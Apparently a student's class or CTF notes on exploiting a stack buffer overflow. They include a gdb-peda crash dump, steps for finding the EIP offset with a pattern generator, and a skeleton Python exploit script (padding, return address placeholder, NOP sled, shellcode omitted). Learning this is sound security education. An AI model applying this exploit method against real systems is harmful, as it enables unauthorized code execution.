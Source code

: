 ```
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd4d0 ('A' <repeats 84 times>)
0004| 0xffffd4d4 ('A' <repeats 80 times>)
0008| 0xffffd4d8 ('A' <repeats 76 times>)
0012| 0xffffd4dc ('A' <repeats 72 times>)
0016| 0xffffd4e0 ('A' <repeats 68 times>)
0020| 0xffffd4e4 ('A' <repeats 64 times>)
0024| 0xffffd4e8 ('A' <repeats 60 times>)
0028| 0xffffd4ec ('A' <repeats 56 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
```
- Find offset 
    - now to find the offset for the buffer overflow, go to [buffer overflow generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and use a length that will overwrite (200) in this case.
    - copy the pattern, run the script in gbd again, then paste it
    - take the EIP Hex value (0x31634130 in this case), paste it into the register value on [buffer overflow generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to find the offset (62 in this case)

## Making our own buffer exploit script with shellcode
```
#!/usr/bin/env python

buffer="A"*62

eip="BBBB"

nop="\x90"*10

#shellcode

print(buffer+eip+nop)
```

### Clean way to open a file without peta or other config files
- `env - gdb *filename*`
- `info proc map`: shows where things are stored in memory: heaps, stacks, libraries, etc. **Should look between the heap and stack for most things in this class**


***
***
## CTF Challenges
Type of Operation: DEVOPS
